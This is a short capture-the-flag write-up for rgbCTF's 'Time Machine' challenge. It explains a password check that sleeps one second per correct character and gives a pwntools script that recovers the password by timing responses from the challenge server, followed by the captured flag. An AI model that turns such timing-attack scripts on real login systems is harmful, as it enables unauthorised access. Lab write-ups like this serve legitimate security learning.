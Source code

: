 # Time Machine

Essentially has a shuffled alphabet, and uses `/dev/urandom` to pick 8 random chars from it.

Getting the first char correct causes it to sleep for 1s, the first two caused it to sleep for 2s, etc. Using this, I wrote a bruteforcer that measured response times.

```python
from pwn import *
chars = "UVWXYZAFBCDQRSTGHIJNOPKLEM"
pw = ""
import time
#p = process("./my_time_machine.elf")
p = remote("challenge.rgbsec.xyz", 13373, level='debug')
p.recvuntil(': \n')

while len(pw) < 8:
    for c in chars:
        s = time.time()
        p.sendline((pw + c).ljust(8, 'A'))
        p.recvline(timeout=9)
        e = time.time()
        p.recvline()
        if (e-s) >= len(pw)+1:
            pw += c
            print(pw)
            break
p.clean()
p.sendline(pw)
print(p.clean(timeout=10))
```

#### rgbCTF{t1m3_is-d4ng3r0us_a7fe798c89123dab}
